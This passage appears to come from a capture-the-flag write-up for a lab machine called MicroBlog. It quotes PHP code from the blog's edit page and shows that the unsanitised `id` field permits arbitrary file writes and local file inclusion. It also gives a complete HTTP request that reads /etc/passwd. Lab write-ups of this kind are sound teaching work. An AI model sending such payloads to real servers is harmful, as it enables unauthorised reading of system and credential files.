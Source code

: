 We can see that the Webapp hardcodes the the Pro feature as `false`.

Looking into the `microblog/microblog-template/edit/index.php` file:
```php
#add text
if (isset($_POST['txt']) && isset($_POST['id'])) {
    chdir(getcwd() . "/../content");
    $txt_nl = nl2br($_POST['txt']);
    $html = "<div class = \"blog-text\">{$txt_nl}</div>";
    $post_file = fopen("{$_POST['id']}", "w");
    fwrite($post_file, $html);
    fclose($post_file);
    $order_file = fopen("order.txt", "a");
    fwrite($order_file, $_POST['id'] . "\n");  
    fclose($order_file);
    header("Location: /edit?message=Section added!&status=success");
}

...

function fetchPage() {
    chdir(getcwd() . "/../content");
    $order = file("order.txt", FILE_IGNORE_NEW_LINES);
    $html_content = "";
    foreach($order as $line) {
        $temp = $html_content;
        $html_content = $temp . "<div class = \"{$line} blog-indiv-content\">" . file_get_contents($line) . "</div>";
    }
    return $html_content;
}
```

There is no input sanitization in the `id` field being submitted in the POST request. This allows LFI to be achieved as we can add something like `/etc/passwd` to `id` and since this gets saved and referenced by `order.txt`, this allows for the contents of the file to be displayed on the main page.

Not only this, but since adding text uses `fopen` this means that we can also create new files and add content to them. However since we do not have access to the `uploads` subdirectory, we will have to figure out how to get the Pro version.

You can use something like the following HTTP request to get LFI:

```http
POST /edit/index.php HTTP/1.1
Host: lmao.microblog.htb
Content-Length: 19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://lmao.microblog.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lmao.microblog.htb/edit/?message=Section%20deleted&status=success
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: username=imkpc5igeei3e4f68jkkhnk13p
Connection: close

id=/etc/passwd&txt=
```
